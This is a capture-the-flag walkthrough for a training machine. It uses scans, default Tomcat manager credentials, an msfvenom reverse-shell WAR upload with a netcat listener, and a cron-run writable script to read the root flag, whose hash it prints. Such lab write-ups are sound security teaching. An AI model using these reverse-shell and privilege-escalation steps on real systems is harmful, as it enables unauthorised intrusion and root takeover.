

Boot2root machine for FIT and bsides guatemala CTF

Deploy the machine and wait a couple of minutes before starting...

## Reconnaissance

Start off with scanning the machine. 

What ports are open?

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 02:49 EST
Nmap scan report for 10.10.169.55
Host is up (0.080s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
```

Looks like there is at least one web based port and the SSH port.

## Directory discovery

Choose a tool and launch the preferred directory discovery tool along with a wordlist, let's find out if there is anything hiding in there!

```
gobuster dir -u http://<ip-address>:<port>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.169.55:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/10 03:05:52 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Looks like access to `/manager` is restricted. Exploring around the website, directed me to a `401 Unauthorized` site when checking the server status. Interestingly enough, there are some default credentials given. Test those out!



## Compromise the machine

Near the bottom of the page, `war` files can be uploaded, so a custom payload will have to be made with `msfvenom`!

Notice that it will have to be a `java` reverse shell (the other open port is the one hinting that).

Especifically, the payload will have to be in `war` format, so get that cheatsheet to find it.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip-address> LPORT=4444 -f war > shell.war
Payload size: 1105 bytes
Final size of war file: 1105 bytes
```

Upload the payload but don't deploy it yet! Start the Netcat listener on your local machine and THEN deploy the `shell.war` created with `msfvenom` by going to the new path shown on the list of applications.

```
nc -lnvp 4444                                                                        
listening on [any] 4444 ...
connect to [ip-address] from (UNKNOWN) [10.10.169.55] 42940
whoami
tomcat
pwd
/
```
Fantastic! Now let's look around, see if we can find that first flag.

Hint: The `user.txt` flag is usually in the home directory of the non-root user.

```
ls -la home/jack
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Feb 10 00:40 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

Aside from the `user.txt` file, there is a shell script.

```
cat home/jack/id.sh
#!/bin/bash
id > test.txt

cat home/jack/test.txt
uid=0(root) gid=0(root) groups=0(root)
```
It appears it was last run by root! That is great news, maybe it is a script included in crontab...

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
``` 

This is great news! Lets edit the shell script to read the `root.txt` file.

```
echo "#!/bin/bash^[\n cat /root/root.txt > test.txt" > id.sh

cat id.sh
#!/bin/bash
cat /root/root.txt > test.txt
```

Now all we have to do is wait before reading the `test.txt` file.

```
cat test.txt
d89d5391984c0450a95497153ae7ca3a
```

Machine rooted!
